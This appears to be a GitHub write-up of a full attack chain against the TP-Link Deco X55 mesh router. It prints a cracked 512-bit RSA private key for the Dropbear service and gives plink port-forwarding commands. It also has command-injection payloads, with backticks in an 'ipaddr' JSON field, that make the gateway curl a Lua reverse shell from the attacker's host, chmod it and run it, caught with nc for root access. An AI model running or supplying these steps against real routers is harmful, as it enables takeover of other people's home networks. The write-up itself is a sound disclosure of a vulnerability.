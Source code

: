 # TP-Link Mesh Network Attack
## Intro
In this write-up, we use TP-Link Deco X55, firmware version 1.2.2 Build 20230301 Rel. 53300 as an illustration example. 

Deco X55 uses Dropbear SSH to secure inter-AP control plane data. The gateway node runs Dropbear on TCP port 20001 for this purpose. 

However, vulnerable versions of such Dropbear SSH connections use 512-bit RSA keys, which is a weakness. 

## Attack Step 1: Fetch the public key from the gateway and crack to learn the private key

To jailbreak your own Deco X55, you first use [fetch_dropbear_pub.py](./fetch_dropbear_pub.py): (`pip install paramiko` is needed)

![](./fetch_512_rsa_pub.png)

`ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAAAQQDCpUvga/nk2lu+KxLsaEqrRXBZzflAJ2YYNwvSNzC8Ro+yxTJxpZ+V8qBYzZ54Kntc+Ojx0nZdR530CIdRhshd`

Save this result as `my_tplink_pub.pub`.

Then use GGNFS/MSIEVE to crack and obtain the private key. (This step is left as an exercise. See solution [here](./crack_512_rsa_solution.md))

You will finally get something like this file `private_key_tplink_new.pem`: 

```
-----BEGIN RSA PRIVATE KEY-----
MIIBOwIBAAJBAMKlS+Br+eTaW74rEuxoSqtFcFnN+UAnZhg3C9I3MLxGj7LFMnGl
n5XyoFjNnngqe1z46PHSdl1HnfQIh1GGyF0CAwEAAQJASS8fPU070wkqz3Cgl9SK
pqTgHlPscGuf3mDsB+kKYO869F1yQ2m9WvIEBTKXoPhO7q3XSj3B9tO/6j4iGm5+
nQIhANm3N4S+uEv6V94JBVu+vXiEQJyWqmOE6nZNqEL3A/FXAiEA5N+M5zcGiybW
Ki44BNnR6XScryK40vS6tlMggUUXv2sCIDH4TXPYWnCF2xkJNQOjudUpdbL7GcyR
u0a/+Di2fV8tAiEAh5SiXKntF2uXPP+KMd1zCzAITXttL5LINI/D1rA+ZCcCIQC7
SBysEP2k6R2B51xDo5mvpJFco3t4drPjB8z0jPlZ8Q==
-----END RSA PRIVATE KEY-----
```

## Attack Step 2: Verify the private key matches the public key

Install putty on Ubuntu:
`sudo apt-get install -y putty`

Then you will have access to the `puttygen` tool. 

Show and verify their signatures match, just to make sure:

![](./verify_pub_pri_match.png)

## Attack Step 3: Convert the private key to PuTTY .ppk format

Input: 

`puttygen private_key_tplink_new.pem -O private -o my_tplink_pri.ppk`

## Attack Step 4: Authenticate to the Dropbear server on the gateway

Use plink with your ppk key to connect: 

`plink -v -L 20002:127.0.0.1:20002 root@192.168.68.1 -N -P 20001 -i my_tplink_pri.ppk`

![](./plink.png)

Important: You need to hit "Return" key on your keyboard to begin the session and enable "Local port 20002 forwarding to 127.0.0.1:20002".

## Attack Step 5: Prepare a reverse shell script

I used [Reverse Shell Generator](https://www.revshells.com/) to generate a lua reverse shell for Deco X55. 
Download my reverse shell [here](./luashell_tplink.sh), and you might want to change IP address and port number within this script to your own local machine's.

## Attack Step 6: Prepare the environment to execute the tmpcli binary on the attacker's machine

The attacker must use an aarch64 machine to launch this attack. 

Download this vulnerable firmware [here](https://static.tp-link.com/upload/firmware/2023/202303/20230331/Deco_X55_V1.0_1.2.2_Build_230301.zip). 

Sorry, clicking the link does not work. Please input the firmware address manually in a fresh browser tab to download it. 

Unpack this firmware (temporarily left as an exercise). Change your directory to the file system root, and use the export command. After that, try running the `/usr/bin/tmpcli` binary.   

`export LD_LIBRARY_PATH=$PWD/usr/lib:$PWD/lib`

![](./run_tmpcli.png)

## Attack Step 7: Start exploiting the vulnerablity in `tmpsvr`

Execute the command: 

```
echo '{"params":{"ipaddr":"192.168.71.250`curl -o /tmp/luashell.sh http://192.168.68.51:4443/luashell_tplink.sh`", "port":"6666"}}' | ./tmpcli -o 0xc505 -u 127.0.0.1 -p 20002
```

This command tells the gateway to download the `luashell_tplink.sh` from the attacker's server (http://192.168.68.51:4443), and writes this script to `/tmp/luashell.sh`. 

Use this command to chmod the script:

```
echo '{"params":{"ipaddr":"192.168.71.250`chmod u+x /tmp/luashell.sh`", "port":"6666"}}' | ./tmpcli -o 0xc505 -u 127.0.0.1 -p 20002
```

On the attacker's machine, run something like `nc -l 9002`.

Finally, execute the script on the mesh gateway:
```
echo '{"params":{"ipaddr":"192.168.71.250`/tmp/luashell.sh`", "port":"6666"}}' | ./tmpcli -o 0xc505 -u 127.0.0.1 -p 20002
```

Hit `uname -a` and `id` in the attacker's terminal. You will see something like:

![](./root_success.png)


